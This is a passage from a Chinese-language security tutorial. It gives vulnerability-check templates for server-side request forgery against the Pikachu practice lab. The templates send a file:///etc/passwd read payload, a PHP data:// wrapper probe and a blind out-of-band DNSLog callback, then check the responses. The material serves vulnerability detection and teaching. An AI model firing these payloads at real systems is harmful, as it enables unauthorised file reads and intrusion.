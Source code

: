   
## **服务端请求伪造（SSRF）**  
  
此类漏洞首先需要知道的也是有没有回显，根据回显的有无，我们可以通过不同的方式进行判断。  
  
**案例：有回显 通过curl请求 linux**  
  
此案例思路与前文中文件读取差不多，只是访问路径为file:///etc/passwd  
```
// 这里以 pikachu 靶场的SSRF为例
url = codec.EscapeQueryUrl(f`file:///etc/passwd`)
rsp, req = poc.HTTPEx(f`GET /vul/ssrf/ssrf_curl.php?url=${url} HTTP/1.1
Host: 127.0.0.1:8765

`)~
body = rsp.GetBody()
if rsp.GetStatusCode() == 200 && len(body) > 0 && "root:x:" in body && "nobody:x:" in body {
    dump("存在漏洞")
}
```  
  
**案例：有回显 php 通过file_get_contents请求 linux**  
  
在此案例中，我们可以考虑使用php的伪协议，使用data协议来安全地读取一段随机字符串，再判断响应中是否存在该字符串  
```
// 这里以 pikachu 靶场的SSRF为例
s = randstr(16)
url = codec.EscapeQueryUrl(f`data://text/plain;base64,`) + codec.EncodeBase64(s)
rsp, req = poc.HTTPEx(f`GET /vul/ssrf/ssrf_fgc.php?file=${url} HTTP/1.1
Host: 172.27.214.38:8765

`)~
body = rsp.GetBody()
if rsp.GetStatusCode() == 200 && len(body) > 0 && s in body {
    dump("存在漏洞")
}
```  
  
**案例：无回显 通过curl请求 出网 linux**  
```
// 这里以 pikachu 靶场的SSRF为例domain, token = risk.NewDNSLogDomain()~url = codec.EscapeQueryUrl(f`http://${domain}`)rsp, req = poc.HTTPEx(f`GET /vul/ssrf/ssrf_curl.php?url=${url} HTTP/1.1Host: 127.0.0.1:8765`)~events = risk.CheckDNSLogByToken(token, 5)~if len(events) > 0 {    dump("存在漏洞")}
```  
  
![](/articles/wechat2md-6b3997508d598af5c84ccc304b7a1e86.png)  
  
可能会有师傅发现，有的漏洞我并没有给模板，例如反序列化，XSS等漏洞，但是实际上上面的模板已经囊括了许多漏洞危害下的 POC 了。  
  
举个例子，反序列化漏洞可能利用过程比较复杂，但是实际上造成的危害通常都是上述一些漏洞造成的危害，如命令执行，文件读取，服务端请求伪造等，也可以通过上面的依据来无害化判断漏洞是否存在。  
  
对上述的模板进行总结：  
  
  
- 对于**有回显**的漏洞，我们普遍采用**计算**的方式来验证漏洞，不论是 哈希计算（如md5）还是算数计算（如加法）也好，检测计算后的结果是否存在于响应中，比直接检测某个输入直接在响应中要**靠谱得多**。  
  